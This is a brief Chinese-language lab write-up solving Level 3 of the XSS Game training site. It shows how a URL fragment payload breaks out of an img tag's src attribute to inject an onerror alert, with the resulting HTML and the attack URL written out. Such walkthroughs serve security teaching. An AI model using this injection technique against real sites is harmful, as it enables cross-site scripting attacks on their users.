 # Level-3

## 攻擊原理

#### 網頁原始碼:
- index.html

#### 偽造 img tag:
- 使最後渲染的程式碼變成

```html
<img src='/static/level3/cloud" + num + onerror="alert('done'); + ".jpg' />
```

## 攻擊方法
在網址利列中插入 'onerror="alert('done');"
```
https://xss-game.appspot.com/level3/frame#1'onerror="alert('done');"
```

## 截圖

#### Code: (page onload)
![image](https://github.com/yillkid/ntc-white-hat/assets/185872/67b7264a-d69c-4d7b-af1c-ee3d67b1988e)

#### Request:
![image info](./00.png)

#### Rsponse:
![image info](./01.png)

